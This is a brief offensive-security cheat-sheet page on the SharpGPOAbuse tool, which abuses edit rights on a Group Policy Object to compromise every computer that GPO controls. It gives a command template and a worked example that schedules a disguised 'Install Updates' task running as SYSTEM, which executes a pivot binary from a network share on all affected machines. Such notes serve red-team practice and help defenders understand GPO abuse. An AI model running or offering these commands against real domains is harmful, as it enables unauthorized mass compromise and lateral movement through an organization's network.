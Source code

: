 # SharpGPOAbuse

> `SharpGPOAbuse` is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.
> `SharpGPOAbuse` can't be used to add GPOs, but only to modify existing GPOs. To add a GPO, see [[rsat#Create New GPO and Link to OU|here]].

---

## Modify Existing GPO to Schedule Task on All Affected Computers

```batch
SharpGPOAbuse.exe --AddComputerTask --TaskName "$TASK_NAME" --Author "$USER" --Command "$COMMAND" --Arguments "$COMMAND_ARGUMENTS" --GPOName "GPO_NAME"
```

Example:

```batch
SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```

---

## References

[SharpGPOAbuse - GitHub Repository](https://github.com/FSecureLABS/SharpGPOAbuse)

[SharpGPOAbuse - WithSecure Labs](https://labs.mwrinfosecurity.com/tools/sharpgpoabuse)
